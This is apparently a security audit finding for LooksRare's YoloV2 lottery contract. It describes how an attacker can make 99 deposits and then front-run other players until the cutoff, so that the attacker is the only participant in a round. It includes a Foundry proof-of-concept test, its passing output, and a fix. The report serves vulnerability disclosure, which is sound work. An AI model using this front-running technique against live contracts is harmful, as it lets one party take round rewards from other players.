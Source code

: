Clumsy Glass Salamander

high

# YoloV2::Front-run enables an attacker to be only player in a round

## Summary
Attacker can front-run a user and successfully become only player in a particular round.

## Vulnerability Detail
In `YoloV2.sol` contract there is a restriction that 1 player cannot fill up one round, and the limit of maximum number of deposit per round is 100. However, one user can deposit 99 times. An attacker can utilize this behavior and keep front running the second user's transaction until the `cutoffTime` is reached, after `cuttoffTime` second user's transaction will not be accepted and attacker will be only one player in a round.
We can visualize this scenario like this:
1. Round is open.
2. Attacker came and did 99 deposit continuously.
3. Now attacker knows that he can't deposit 100th time because it is not allowed in protocol.
4. Attacker saw the second user's transaction in mempool.
5. Attacker knows now his all transaction will be reverted.
6. Attacker started front-running him until the `cutoffTime` has reached.
7. The second user's transaction keeps delaying.
8. Once the `cutoffTime` has reached the second user's transaction will be rejected.
9. So now attacker is only one participant in the round and he will be rewarded.

To test this scenario run this:
```solidity
function test_depositFrontrun() public {
        vm.deal(user2, 10 ether);
        vm.startPrank(user2);
// @audit Attacker deposited 99 times
        for (uint i = 0; i < 99; i++) {
            yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());
        }

        console.log("cuttoffTime after attcker's  1st deposit:", _getCutoffTime(1));
        console.log("currrentTime before attacker's 2nd call:", block.timestamp);
//@audit now attacker started front-running the second user
        for (uint i = 0; i < 200; i++) {
            vm.warp(block.timestamp + 5);

            vm.expectRevert();
            yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());
        }
        console.log("current time:", block.timestamp);
        vm.stopPrank();
        vm.deal(user3, 10 ether);
        vm.prank(user3);
//@audit Second user transaction will be reverted
        vm.expectRevert();
        yolo.deposit{value: 10 ether}(1, _emptyDepositsCalldata());
//@audit we can verify that the number of participants in round-1
        (,,,,,uint participants,,,,) = yolo.getRound(1);
        assertEq(participants, 1);
    }
```
The result is:
```solidity
Running 1 test for test/foundry/Yolo.deposit.t.sol:Yolo_Deposit_Test
[PASS] test_depositFrontrun() (gas: 14434565)
Logs:
  cuttoffTime after attcker's  1st deposit: 1697639495
  currrentTime before attacker's 2nd call: 1697638895
  current time: 1697639895

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 979.32ms
 ```
This is how an attacker can manipulate the system.

## Impact
An attacker can front-run a user to become only one participant in a round and get rewarded.
## Code Snippet
1. https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L81
2. https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1585-L1594

## Tool used

Manual Review, Foundry

## Recommendation
The minimum number of participants in a round need to be set.